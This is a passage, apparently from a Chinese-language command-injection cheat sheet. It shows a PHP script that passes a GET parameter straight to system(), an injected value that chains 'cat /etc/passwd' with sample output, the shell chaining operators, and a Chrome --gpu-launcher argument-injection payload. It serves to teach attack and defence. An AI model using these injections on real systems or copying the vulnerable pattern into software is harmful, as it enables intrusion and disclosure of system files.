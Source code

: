 **PHP命令注入示例**:
假设您有一个PHP脚本，它接受用户输入来ping指定的IP地址或域名：

```php
<?php
    $ip = $_GET['ip'];
    system("ping -c 4 " . $ip);
?>
```

在上面的代码中，PHP脚本使用`system()`函数执行`ping`命令，其中IP地址或域名由用户通过`ip` GET参数提供。

如果攻击者提供类似`8.8.8.8; cat /etc/passwd`的输入，实际执行的命令将是：`ping -c 4 8.8.8.8; cat /etc/passwd`。

这意味着系统将首先`ping 8.8.8.8`，然后执行`cat /etc/passwd`命令，这将显示`/etc/passwd`文件的内容，可能泄露敏感信息。

### 基础命令

执行命令，然后收工 :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
```

### 命令链

在许多命令行界面中，特别是在类Unix系统中，有几个字符可用于链接或操作命令。

* `;` (分号): 允许您按顺序执行多个命令。
* `&&` (与): 仅当第一个命令成功（返回零退出状态）时才执行第二个命令。
* `||` (或): 仅当第一个命令失败（返回非零退出状态）时才执行第二个命令。
* `&` (后台): 在后台执行命令，允许用户继续使用shell。
* `|` (管道): 将第一个命令的输出作为第二个命令的输入。

```powershell
command1; command2   # 执行command1，然后执行command2
command1 && command2 # 仅当command1成功时执行command2
command1 || command2 # 仅当command1失败时执行command2
command1 & command2  # 在后台执行command1
command1 | command2  # 将command1的输出通过管道传递给command2
```

### 参数注入

当您只能向现有命令追加参数时获取命令执行。
使用此网站[Argument Injection Vectors - Sonar](https://sonarsource.github.io/argument-injection-vectors/)查找要注入的参数以获取命令执行。

* Chrome

    ```ps1
    chrome '--gpu-launcher="id>/tmp/foo"'
    ```
